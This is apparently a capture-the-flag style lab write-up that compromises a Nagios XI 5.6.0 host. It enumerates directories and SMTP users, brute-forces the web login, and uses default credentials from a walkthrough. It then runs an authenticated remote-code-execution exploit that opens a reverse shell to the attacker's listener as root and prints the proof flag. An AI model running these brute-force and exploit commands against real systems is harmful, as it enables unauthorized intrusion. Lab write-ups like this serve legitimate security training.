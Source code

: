 # HTTP/80

Nagios XI:
Default creds do not work:
nagiosadmin:nagiosxi

Exploits available
```bash
searchsploit nagios XI
# a lot of exploits..
# 46221: missing python2 dep
# 48640, 47299: require creds
```

Weird Login response if the nsp POST parameter is missing/incorrect:
Request:
```HTTP
POST /nagiosxi/login.php HTTP/1.1
Host: 192.168.131.136
...

page=auth&debug=&pageopt=login&rusername=coconut&password=coconut&loginButton=
```
Response:
```HTTP
HTTP/1.1 403 Forbidden
...

NSP: Sorry Dave, I can't let you do that
```
=> Username dave? Nope, turns out this is a default error message of nagios

Directory brute:
```bash
gobuster dir -u http://192.168.131.136/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -f
```
Results:
```
/cgi-bin/             (Status: 403) [Size: 280]
/javascript/          (Status: 403) [Size: 280]
/icons/               (Status: 403) [Size: 280]
/server-status/       (Status: 403) [Size: 280]
/nagios/              (Status: 401) [Size: 462]
```

Login brute:
```bash
ffuf -request nagios_login.req -request-proto https -w /usr/share/wordlists/rockyou.txt -fr 'Invalid username or password'
```


---
# SMTP:25

Enumerated usernames:
```bash
smtp-user-enum -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -t 192.168.131.136
```
Results:
```

######## Scan started at Sun Oct 19 22:05:42 2025 #########
192.168.131.136: mail exists
192.168.131.136: root exists
192.168.131.136: news exists
192.168.131.136: man exists
192.168.131.136: bin exists
192.168.131.136: games exists
192.168.131.136: nobody exists
192.168.131.136: backup exists
192.168.131.136: coconut exists
192.168.131.136: daemon exists
192.168.131.136: proxy exists
192.168.131.136: list exists
192.168.131.136: Man exists
192.168.131.136: Daemon exists
192.168.131.136: postmaster exists
192.168.131.136: sys exists
192.168.131.136: Proxy exists
192.168.131.136: Marc%20Ludlum 454 4.7.1 <Marc%20Ludlum>: Relay access denied..
192.168.131.136: Nobody exists
192.168.131.136: checkit! 454 4.7.1 <checkit!>: Relay access denied..
192.168.131.136: MAIL exists
192.168.131.136: Klassen! 454 4.7.1 <Klassen!>: Relay access denied..
192.168.131.136: ckck!! 454 4.7.1 <ckck!!>: Relay access denied..
192.168.131.136: Games exists
192.168.131.136: sync exists
192.168.131.136: Root exists
192.168.131.136: Mail exists
192.168.131.136: MAN exists
Aborted
```
Took ages so I aborted the scan, probably not the entry anyway.

---
Anyway took a peek at the walkthrough :)

For the nagios login the default username `nagiosadmin` was kept but the default password was changed from `nagiosxi` to `admin` :)

From here logged-in in the  web ui:

```
Nagios XI 5.6.0
```

For the nagios 5.6.x the following exploits are available:
```bash
#  XI 5.6.1 - SQL injection                                                                                                                                                                           | php/webapps/46910.txt
# Nagios XI 5.6.12 - 'export-rrd.php' Remote Code Execution                                                                                                                                                 | php/webapps/48640.txt
# Nagios XI 5.6.5 - Remote Code Execution / Root Privilege Escalation                                                                                                                                       | php/webapps/47299.php
# Nagios Xi 5.6.6 - Authenticated Remote Code Execution (RCE)                                                                                                                                               | multiple/webapps/52138.txt
```
=> 52138 looks promising (CVE-2019–15949)

Exploit:
```bash
python3 52138.py -t https://192.168.131.136/ -b /nagiosxi/ -u nagiosadmin -p admin -lh 192.168.45.249 -lp 4444 -k
```
Reverse shell:
```bash
nc -vlnp 4444           
# listening on [any] 4444 ...
# connect to [192.168.45.249] from (UNKNOWN) [192.168.131.136] 49378
# bash: cannot set terminal process group (949): Inappropriate ioctl for device
# bash: no job control in this shell
# root@ubuntu:/usr/local/nagiosxi/html/includes/components/profile# whoami
# whoami
# root
# root@ubuntu:/usr/local/nagiosxi/html/includes/components/profile# id
# id
# uid=0(root) gid=0(root) groups=0(root)
```
=> we are already root :)

Flag:
```bash
cat /root/proof.txt                  
3d0daf8904c38f6b2852128ea5aa252e
```
